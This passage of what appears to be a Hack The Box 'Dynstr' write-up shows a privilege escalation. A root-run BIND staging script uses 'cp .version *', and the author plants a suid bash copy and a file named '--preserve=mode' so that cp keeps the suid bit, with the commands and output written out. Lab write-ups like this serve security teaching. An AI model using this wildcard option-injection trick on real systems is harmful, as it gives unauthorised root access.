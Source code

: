 ```bash
cp .version * /etc/bind/named.bindmgr/

# Check generated configuration with named-checkconf.
echo "[+] Checking staged configuration."
named-checkconf $BINDMGR_CONF >/dev/null
if [[ $? -ne 0 ]] ; then
    echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
    named-checkconf $BINDMGR_CONF 2>&1 | indent
    exit 44
else
    echo "[+] Configuration successfully staged."
    # *** TODO *** Uncomment restart once we are live.
    # systemctl restart bind9
    if [[ $? -ne 0 ]] ; then
        echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
        systemctl status bind9
    else
        echo "[+] Restart of bind9 via systemctl succeeded."
    fi
fi
```

First we identify the needed version to pass the first check of the script, which turns out to be the answer to everything.

```
bindmgr@dynstr:~$ cat /etc/bind/named.bindmgr/.version
42
```

We echo a version number higher than this in a .version file. Next we copy a binary which we want to set the suid bit on to our directory, we will use bash this time. Afterwards we set the suid bit on it and create a file with the name `--preserve=mode`.
Because of the wildcard this file will be interpreted as a command line argument and allow us to keep the permissions set on our binary.

```
bindmgr@dynstr:/dev/shm$ echo 9001 > .version
bindmgr@dynstr:/dev/shm$ cp /bin/bash .
bindmgr@dynstr:/dev/shm$ chmod +s bash
bindmgr@dynstr:/dev/shm$ touch -- --preserve=mode
```

Now we execute the script as root and `bash` gets copied to the `/etc/bind/named.bindmgr/` directory, now owned by root and with the suid bit still set.

```
bindmgr@dynstr:/dev/shm$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors:
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'
```
